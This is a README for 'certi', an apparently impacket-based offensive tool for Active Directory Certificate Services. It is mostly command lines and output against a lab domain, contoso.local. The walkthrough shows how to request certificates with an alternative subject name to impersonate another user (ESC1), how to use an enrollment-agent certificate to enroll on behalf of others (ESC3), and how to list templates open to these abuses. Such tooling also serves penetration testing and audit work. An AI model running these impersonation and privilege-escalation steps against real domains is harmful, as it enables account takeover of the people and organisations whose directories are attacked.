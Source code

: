 # certi

Utility to play with ADCS, allows to request tickets and collect information about related objects. Basically, it's the impacket copy of [Certify](https://github.com/GhostPack/Certify). Thanks to [@harmj0y](https://twitter.com/harmj0y) and [@tifkin_](https://twitter.com/tifkin_) for [its great work with ADCS](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf).

## Request a certificate

To request a certificate you can use the req command:
```
$ getTGT.py 'contoso.local/Anakin:Vader1234!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in Anakin.ccache
$ export KRB5CCNAME=Anakin.ccache
$ certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n
[*] Service: contoso-DC01-CA
[*] Template: User
[*] Username: Anakin

[*] Response: 0x3 Issued  0x80094004, The Enrollee (CN=Anakin,CN=Users,DC=contoso,DC=local) has no E-Mail name registered in the Active Directory.  The E-Mail name will not be included in the certificate.

[*] Cert subject: CN=Anakin,CN=Users,DC=contoso,DC=local
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 75000000062BD9D6E3F1B15CC3000000000006
[*] Cert Extended Key Usage: Encrypting File System, Secure Email, Client Authentication

[*] Saving certificate in Anakin.pfx (password: admin)
```

Depending on the enrollment service, you may need to use NTLM or Kerberos authentication to get access to it, so be sure to check both. Following is the error triggered when NTLM is not allowed and you should use Kerberos:
```
(certi) certi$ certi.py req 'contoso.local/Anakin:Vader1234!@dc01.contoso.local' contoso-DC01-CA
Error: WCCE SessionError: code: 0x80094011 - CERTSRV_E_ENROLL_DENIED - The permissions on this CA do not allow the current user to enroll for certificates.
Help: Try using Kerberos authentication with -k -n params
```

### Request with an alternative name


You can use the `--alt-name` parameter to give an alternative subject and request a certificate that can be used to impersonate the target user if some template allows you to do that:
```
$ certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
[*] Service: contoso-DC01-CA
[*] Template: UserSAN
[*] Username: Anakin
[*] Alternative Name: han

[*] Response: 0x3 Issued

[*] Cert subject: CN=Anakin
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 750000000A858CC4B4C9301ED600000000000A
[*] Cert Extended Key Usage: Encrypting File System, Secure Email, Client Authentication
[+] Cert Altname: han@contoso.local

[*] Saving certificate in han@contoso.local.pfx (password: admin)

```

You can get the templates vulnerable to this by using the `--vuln` and `--enable` params of the list command (be sure ):

```
$ certi.py list 'contoso.local/Anakin' -k -n --dc-ip 192.168.100.2 --vuln --enable | grep ESC1 -B 3
Name: SubCA
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation, ESC2 - Any Purpose, ESC3.2 - Use Agent Certificate
--
Name: UserSAN
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation
```


### Request as an enrollment agent


In case the available templates allows you to do that, you can request a certificate for an enrollment agent and then use it to request a certificate for another user:

```
$ certi.py req 'contoso.local/Han@dc01.contoso.local' contoso-DC01-CA -k -n --template EnrollAgent
[*] Service: contoso-DC01-CA
[*] Template: EnrollAgent
[*] Username: Han

[*] Response: 0x3 Issued

[*] Cert subject: CN=Han
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 75000000256F1BB99993785823000000000025
[*] Cert Extended Key Usage: Certificate Request Agent

[*] Saving certificate in Han.pfx (password: admin)
$ certi.py req 'contoso.local/Han@dc01.contoso.local' contoso-DC01-CA -k -n --on-behalf anakin --enroll-cert Han.pfx --enroll-cert-pw admin --template EnrollWithAgent
[*] Service: contoso-DC01-CA
[*] Template: EnrollWithAgent
[*] Username: Han
[*] On behalf of: anakin

[*] Response: 0x3 Issued

[*] Cert subject: CN=anakin
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 750000002AB527D8E1E64930DC00000000002A
[*] Cert Extended Key Usage: Any Purpose, Certificate Request Agent, Encrypting File System, Secure Email, Client Authentication

[*] Saving certificate in anakin.pfx (password: admin)
```


You can check for templates vulnerable to these misconfigurations with the `list` command (we are that permissions may restrict you from request a certificate for a given template):
```
$ certi.py list 'contoso.local/Han' -k -n --dc-ip 192.168.100.2 --vuln --enable | grep ESC3 -B 3
Name: User
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: Administrator
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: Machine
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: DomainController
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: SubCA
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation, ESC2 - Any Purpose, ESC3.2 - Use Agent Certificate
--
Name: EnrollAgent
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: EnrollwithAgent
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate

```


## List services


```
$ certi.py list 'contoso.local/Han' -k -n --class service
[*] Enrollment Services

Name: contoso-DC01-CA
DNS name: dc01.contoso.local
Templates: EnrollwithAgent, EnrollAgent, UserSAN, DirectoryEmailReplication, DomainControllerAuthentication, KerberosAuthentication, EFSRecovery, EFS, DomainController, WebServer, Machine, User, SubCA, Administrator
Certificate:
  Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
  Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
  Cert Start: 2021-08-01 12:49:46
  Cert End: 2026-08-01 12:59:46
  Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

```


## List CAs

```
$ certi.py list 'contoso.local/Han' -k -n --dc-ip 192.168.100.2 --class ca
[*] Root CAs

Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
Cert Start: 2021-08-01 12:49:46
Cert End: 2026-08-01 12:59:46
Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

[*] Authority Information Access

Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
Cert Start: 2021-08-01 12:49:46
Cert End: 2026-08-01 12:59:46
Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

```
